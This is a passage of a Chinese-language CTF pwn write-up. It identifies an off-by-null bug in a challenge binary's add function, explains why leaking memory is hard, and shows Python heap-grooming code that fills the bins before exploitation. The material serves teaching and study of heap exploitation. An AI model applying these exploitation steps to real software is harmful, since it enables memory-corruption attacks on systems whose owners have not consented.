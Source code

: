 程序的流程比较清晰简单，在 add 函数中，存在明显的 off-by-null。

![](./figure/add-function.png)

而 free 中对被 free 的指针进行了置空，导致无法直接 show，而程序对我们的输入末尾附加 `\x00`，也无法使用释放再申请的方法，leak 比较困难。

分析结束。接下来进行利用

为了调试方便，建议先关闭 aslr。

一开始的时候 bin 中非常的杂乱，先把这些乱七八糟的东西申请出来

```python
for i in range(16):
    add(0x10,'fill')

for i in range(16):
    add(0x60,'fill')

for i in range(9):
    add(0x70,'fill')

for i in range(5):
    add(0xC0,'fill')

for i in range(2):
    add(0xE0,'fill')

add(0x170,'fill')
add(0x190,'fill')
# 49
```
